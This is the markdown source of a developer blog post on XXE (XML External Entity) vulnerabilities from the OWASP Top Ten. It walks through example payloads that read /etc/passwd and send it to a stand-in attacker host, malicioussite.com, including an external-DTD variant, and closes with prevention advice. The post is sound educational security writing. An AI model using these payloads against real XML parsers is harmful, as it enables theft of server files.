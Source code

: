 ```yaml
---
layout: post
title: OWASP Top Ten - 4. XML External Entities (XXE)
tags: tech
description: 
thumbnail: /4-xml-external-entities/thumbnail.jpg
thumbnail-creator-link: https://unsplash.com/@florianolv
thumbnail-creator: Florian Olivo
thumbnail-site: https://unsplash.com/
thumbnail-site-name: Unsplash
image-alt: Picture of SVG and HTML code
date: 2020-12-11
---
```


Anywhere you use XML *(eXtensible Markup Language)*, you have the potential for XXE *(XML eXternal Entity)* vulnerabilities.

Let's talk about where XML could exist in your app, what XXE is and why it's a risk for your application, and possible ways to prevent it.

<!--more-->

## Where XML Is That You Might Not Realize
Before studying XXE attacks, I didn't give a second thought to XML. I would venture a guess to say that most web developers don't think about it much.

But XML is in various parts of our application that we might not realize.

It's commonly used in API endpoints. SOAP uses it exclusively, but modern APIs using JSON could also accept XML as well.

**Did you know that .pdf, .docx, .xslx, and .svg files all contain XML?** If you accept uploads of any of these files in your application, you could be susceptible to an XXE attack.

Once you start looking, you'll find XML in places you didn't expect. **And anywhere there's XML, there's the potential for XXE**.

So what is XXE and why should we, as web developers, care about it?

---

## What Is XXE?
By now you know that XXE stands for XML eXternal Entities, but what is an entity?

In an XML document, **an entity is kind of like a variable**. You can declare a custom entity within the XML document and output it in an element, like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY hello "Hello World">
]>
<item>&hello;</item>
```
Let's take this line by line.

1. The first line declares this an xml document, the version we're using, and how it's encoded.
2. The second line is called the DTD (Document Type Definition). This tells the parser what well-formed XML looks like for this document. In this line, we're also saying the root element of the document is 'root'.
3. The third line, while still in the DTD, is declaring one element, named 'item', that allows any combination of parsable data.
4. The fourth line, still in the DTD, is declaring one entity, named 'hello', that contains the text "Hello World".
5. The fifth line close the DTD.
6. The last line uses the `<item>` element and contains the `&hello;` entity.

The important part to understand here is that I've declared an entity. Anywhere it's displayed, the text "Hello World" will be output.

This functionality is what can be abused in XXE attacks.

For example, an attacker **could use this functionality to display the contents of local text files on the server**.

Let's pretend the XML file above is sent from a browser, to a server, over HTTP. It's unencrypted, so a MITM *(Monster-In-The-Middle)* could modify it to look something like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY hello SYSTEM "file:///etc/passwd">
]>
<item>&hello;</item>
```
Only the 4th line has changed, but now wherever the `&hello;` entity is displayed *(such as on a page, in an error, or in a log)*, **it will now show the contents of /etc/passwd**. Instead of passing in text, an attacker has added the SYSTEM keyword telling the XML parser to read the contents of `/etc/passwd` on this system and output it to the `&hello;` entity.

As you might guess, this is not a good situation.

You might be thinking, what if we don't display that entity ANYWHERE. An attacker can't get the contents of `&hello;` so we're safe.

What if I told you **an attacker could modify the XML to send the contents of `&hello;` *(everything in `/etc/passwd`)* to a server they control**?

To do that, they could modify the XML to look something like this:
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [
	<!ELEMENT item ANY>
	<!ENTITY % hello SYSTEM "file:///etc/passwd">
	<!ENTITY sendtomysite SYSTEM "http://malicioussite.com/?%hello;">
]>
<item>&sendtomysite;</item>
```
Here, the attacker has modified the 4th line to include a % character before 'hello'. This tells the library that the entity will now be used within the DTD *(that's why on the 5th line you see `%hello;` instead of `&hello;`)*.

The 5th line has a new entity - **an external entity**. This line tells the parser that when `&sendtomysite;` is called, connect to `http://malicioussite.com` and attach the `%hello;` entity.

This means the `<item>` element doesn't have to be displayed anywhere. As long as it's processed, **the contents of `/etc/passwd` will be sent to `malicioussite.com` *(if external entities are enabled)***.

Yeah, that can suck. But maybe you only allow specifically formatted XML in your application or you block access to local files. If an attacker tried to inject into elements or directly read local server files, it wouldn't work.

Well, an attacker could try a different tactic - using **an external DTD**.

They'd need 2 files - the existing XML file *(like one inside a PDF or Word Doc)* and a second one controlled by the attacker.

The first file will be injected with the following code:
``` xml
<!DOCTYPE root [
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % dtd SYSTEM "http://malicioussite.com/ext.dtd">
	%dtd;
	%send;
]>
```
The second file, ext.dtd, lives on the attacker's server. It looks something like this:
``` xml
<!ENTITY send SYSTEM "http://malicioussite.com/?%file;">
```
Let's step through what will happen here.
1. First, everything is located within the DTD *(thus all entities are prefaced with % characters)*.
2. `%dtd;` will be parsed first. It will retrieve the ext.dtd file from `malicioussite.com`.
3. This inserts the `%send;` entity into the DTD (making it look similar to the previous example).
4. Next, the `%send;` entity gets parsed. This causes the %file to get retrieved *(containing the contents of `/etc/passwd`)* and sent along to `malicioussite.com`. 

This example isn't perfect. There's a decent chance an attacker would need to base64 encode the `/etc/passwd` first, but the idea is the same. **They're creating external entities and using them to exfiltrate server data**.

### Further Reading:
- [More Examples of XXE attacks](https://cheatsheetseries.owasp.org/cheatsheets/XML_Security_Cheat_Sheet.html#xml-entity-expansion){:target="_blank"}

---

## XXE Risks
XXE can be difficult to understand if you don't understand how XML works and how your library will parse it by default. Essentially, **XXE attacks abuse that default behavior to include external entities *(controlled by the attacker)* and gain access to server-side resources**.

At a minimum, **this access allows an attacker to view sensitive server information**. At its worst, **it could be used to eventually launch RCE *(Remote Code Execution)* attacks**, which is very, very bad.

### Further Reading:
- [Learn More About XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing){:target="_blank"}
- [Testing for XML Injection *(can be used as an entry point to inject XXE)*](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection){:target="_blank"}

---

## Possible Ways To Help Prevent XXE
If you parse XML files in any way, and you aren't 100% certain about how your library does it, there is the potential for XXE vulnerabilities.

OWASP has [some good tips for prevention](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)){:target="_blank"}:
- Understand your XML library.
	- If needed, disable XML external entity and DTD processing.
	- Use the lastest XML libraries and keep them patched.
- Understand your endpoints.
	- Many APIs that use JSON will also allow XML. Since it's not expected, it's not always secured by default. Disable any alternative data formats.
- Use SAST tools to help find XXE vulnerabilities.

Like everything in security, this is a complex topic. **It can be difficult to fully understand and prevent it**.

Do your best, keep researching, and learn more to understand and help protect your application against this vulnerability.

### Further Reading
- [How to Prevent XXE](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE)){:target="_blank"}
- [OWASP's XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html){:target="_blank"}